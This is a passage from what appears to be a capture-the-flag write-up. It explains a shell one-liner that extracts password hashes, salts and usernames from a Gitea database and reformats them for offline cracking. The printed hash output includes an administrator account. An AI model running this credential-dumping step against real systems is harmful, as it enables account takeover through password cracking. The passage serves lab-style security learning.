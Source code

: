 ```ad-important
        
    - `xxd -r -p`: Converts hex to raw binary.
        
    - `base64`: Encodes the binary hash as base64.
        
    - Final result: Base64-encoded password hash.
        
4. **Decode the Salt**
    
    `salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64)`
    
    - Same process as above, but extracts the second field (`salt`).
        
5. **Extract Username**
    
    `name=$(echo $data | cut -d'|' -f 3)`
    
    - `cut -d'|' -f3`: Gets the third field (`name`).
        
6. **Format for Password Cracking**

    `echo "${name}:sha256:50000:${salt}:${digest}"`
    
    
    - Outputs the data in the format:
        username:sha256:50000:<base64_salt>:<base64_digest>
        
        - `sha256`: Hashing algorithm (PBKDF2-SHA256 in Gitea).
            
        - `50000`: Number of iterations.
            
7. **Save Output**
    
    `| tee gitea.hashes`
    
    - Writes the formatted hashes to `gitea.hashes` and displays them on the terminal.
```


We get the following output:

```bash
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes


administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
jimmy:sha256:50000:SSA8M0fsllcrScqVRxll1Q==:wnOGvOYSpdN8RrPjxlvCSjr25TJMm505WuohBMUEeJEyE8kpqjmC5FpfdJpbQ1ZJ6U0=
signingup:sha256:50000:2x8EpYBjLTxCfYlJtw7XXg==:OTLWbSiIpOBiDMi6syhVJN/3enAqxoXrM2l0qDTIS6HUX1+pujATc5dQEMkQGIiEoPc=
```
